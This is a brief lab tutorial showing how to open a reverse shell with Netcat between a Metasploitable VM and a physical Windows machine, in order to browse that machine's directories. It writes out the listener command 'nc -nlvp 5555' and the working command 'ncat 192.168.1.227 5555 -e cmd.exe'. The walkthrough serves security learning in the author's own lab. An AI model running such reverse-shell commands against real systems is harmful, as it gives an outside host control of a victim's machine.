

We demonstrate how to open a remote shell through `Netcat`, allowing us to navigate the directories of a physical machine using Metasploitable.

To open a reverse shell, we need the IP address of Metasploitable, from which we open the remote shell:

The address is `192.168.1.227`.

Now we open a listener on port `5555` of the virtual machine using the command `nc -nlvp 5555`:

From the physical machine, we run the command `ncat 192.168.1.227 5555 -e cmd.exe` to open a remote shell to Metasploitable's address:

From Metasploitable, we can see that the connection was successful:

Now we can navigate the directories of the physical machine from Metasploitable's shell using the `dir` command:

